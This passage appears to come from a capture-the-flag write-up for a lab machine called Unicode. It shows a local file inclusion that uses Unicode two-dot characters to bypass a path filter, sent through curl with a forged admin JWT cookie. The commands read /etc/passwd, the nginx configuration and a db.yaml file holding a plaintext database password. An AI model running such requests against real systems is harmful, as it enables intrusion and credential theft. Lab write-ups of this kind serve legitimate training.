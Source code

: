 Looks like it isn't processing. Now because this box was literally named Unicode, we might have to use Unicode characters to make this work. When we use this payload, the LFI works:

```
http://10.129.246.167/display/?page=%E2%80%A5/%E2%80%A5/%E2%80%A5/%E2%80%A5/etc/passwd
```

<figure><img src="../../../.gitbook/assets/image (647).png" alt=""><figcaption></figcaption></figure>

Now with an LFI, let's try to read the `nginx` configuration files since this was an Nginx server.&#x20;

```bash
$ curl -H 'Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdC8_dXJsPTEwLjEwLjE0LjEzL2p3a3MuanNvbiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.BTblX6M82Za_sh8hvEuUHdrArVmK-zLFphwUfpEB9Vuib6dfiZ5_RXqZYwmI-uo1NSl-pKXxB6shhB57oFG2pSH5AjU6Cxk6HqvgTBMNIdFjaoGdj4uyq3FgYuH8VN8PxUMXhf6MwkpBrd-hh-yJ32xRFV-Z_uIqTc1Rue5ImLvTVAQ1434ZUjCkKzsMUKPa-PI8pXLWmR2MGpvRBbUd7xSth2tVOpgnK9u0h09xh-2kE3YjopdxeNAfokXJUshfL5tUX_BTHY0-10KvDb3amfWTGUoRruyUSTdWm5-H1PAtbvOJ3-Uo_EkwVPIbwEr3g51yR-ZvAMfLkInG-LQNiw' http://10.129.246.167/display/?page=%E2%80%A5/%E2%80%A5/%E2%80%A5/%E2%80%A5/etc/nginx/sites-available/default
limit_req_zone $binary_remote_addr zone=mylimit:10m rate=800r/s;

server{
#Change the Webroot from /home/code/app/ to /var/www/html/
#change the user password from db.yaml
        listen 80;
        error_page 503 /rate-limited/;
        location / {
                limit_req zone=mylimit;
                proxy_pass http://localhost:8000;
                include /etc/nginx/proxy_params;
                proxy_redirect off;
        }
        location /static/{
                alias /home/code/coder/static/styles/;
        }
}
```

`db.yaml`? This is located within `/home/code/coder/db.yaml`.&#x20;

```bash
$ curl -H 'Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdC8_dXJsPTEwLjEwLjE0LjEzL2p3a3MuanNvbiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.BTblX6M82Za_sh8hvEuUHdrArVmK-zLFphwUfpEB9Vuib6dfiZ5_RXqZYwmI-uo1NSl-pKXxB6shhB57oFG2pSH5AjU6Cxk6HqvgTBMNIdFjaoGdj4uyq3FgYuH8VN8PxUMXhf6MwkpBrd-hh-yJ32xRFV-Z_uIqTc1Rue5ImLvTVAQ1434ZUjCkKzsMUKPa-PI8pXLWmR2MGpvRBbUd7xSth2tVOpgnK9u0h09xh-2kE3YjopdxeNAfokXJUshfL5tUX_BTHY0-10KvDb3amfWTGUoRruyUSTdWm5-H1PAtbvOJ3-Uo_EkwVPIbwEr3g51yR-ZvAMfLkInG-LQNiw' http://10.129.246.167/display/?page=%E2%80%A5/%E2%80%A5/%E2%80%A5/%E2%80%A5/home/code/coder/db.yaml
mysql_host: "localhost"
mysql_user: "code"
mysql_password: "B3stC0d3r2021@@!"
mysql_db: "user"
```
